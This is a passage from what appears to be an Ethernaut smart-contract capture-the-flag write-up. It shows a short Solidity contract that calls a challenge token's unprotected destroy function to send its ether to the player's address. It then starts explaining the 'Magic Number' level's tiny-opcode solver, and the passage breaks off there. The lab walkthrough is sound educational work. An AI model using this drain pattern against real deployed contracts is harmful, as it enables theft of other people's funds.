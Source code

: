 6. call the destroy function with your wallet address as paramater

Here is a simple contract to call the destroy function :

```js
interface SimpleToken {
      function destroy(address payable _to) external ; 
}

contract Recover {

    function recoverFunds(address contractAddress, address payable myAddress) public {
        //  (bool success, ) = contractAddress.call(
        //     abi.encodeWithSignature("destroy(address payable)", myAddress));
        //  require(success);   

        // or a cleaner way 
        SimpleToken tokenContract = SimpleToken(contractAddress);
        tokenContract.destroy(myAddress);
    }

    function verifyBalance(address contractAddress) public view returns (uint){
        return contractAddress.balance;
    }
}
```

## Magic Number

### Challenge description

> To solve this level, you only need to provide the Ethernaut with a Solver, a contract that responds to whatIsTheMeaningOfLife() with the right number.
Easy right? Well... there's a catch.
The solver's code needs to be really tiny. Really reaaaaaallly tiny. Like freakin' really really itty-bitty tiny: 10 opcodes at most.

### Analysis 

Writing Opcode instead of plain solidity.  **It's not that hard right ?** *right?* 
Okay Let's dive in one by one till we understand how everything works. I  will be writing some pseudo/solidity code for analogy.

```js
//
function whatIsTheMeaningOfLife(){
    return 42;
}

```

`a contract that responds to whatIsTheMeaningOfLife()` fallback function can answer that so let's make things more simple
